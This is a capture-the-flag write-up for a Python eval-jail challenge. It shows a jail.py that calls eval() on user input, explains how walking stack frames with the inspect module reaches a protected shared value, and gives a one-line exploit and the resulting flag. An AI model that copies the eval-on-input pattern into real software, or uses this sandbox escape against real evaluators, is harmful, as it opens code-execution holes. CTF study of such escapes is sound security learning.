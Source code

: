 ### `jail.py`

```python

def jail(inp):
    return eval(inp)

def guess(inp, guessed):
    import os, random

    os.setregid(65534, 65534), os.setreuid(65534, 65534)
    try:
        r = jail(inp)
        if random.random() == r:
            print('That\'s right, but you ain\'t get any flags')
            guessed.value = False
    except Exception as e:
        print("Don't break my jail")

```

basically what's going on here is, `chall.py` is allocating a shared memory region called `guessed`, reads user input into `inp` and calls `jail.guess()` from `jail.py`, which calls `jail(inp)` and evaluates the user input, after that it checks if the result equals a random number chosen, if so it sets `guessed.value` to `False`.

notice that the only way to read the flag is if `guessed.value == True`, which is never the case, so we need to find a way to override it.

### the call stack

at this point I started looking into ways to traverse the call stack frames, this way I can access the `guess()` frame (parent) from the `jail()` frame (where we're currently at), and I came across the [`inspect`](https://docs.python.org/3/library/inspect.html) module in python.

### dirty python tricks

since we're in an `eval` and not an `exec`, we can't just import stuff the python way (`import os`), nor can we set attributes the usual way `foo.bar = 5`, we would have to use some tricks such as `__import__('os')` and `setattr(foo, "bar", 5)`.

### final exploit

```python
setattr(__import__('inspect').getargvalues(__import__('inspect').currentframe().f_back.f_back).locals['guessed'], "value", True)
```

### flag

```
shellmates{PYTHOn_FR4mE_0bj3cTs_ARENT_s3CuR3_ARE_Th3y}
```
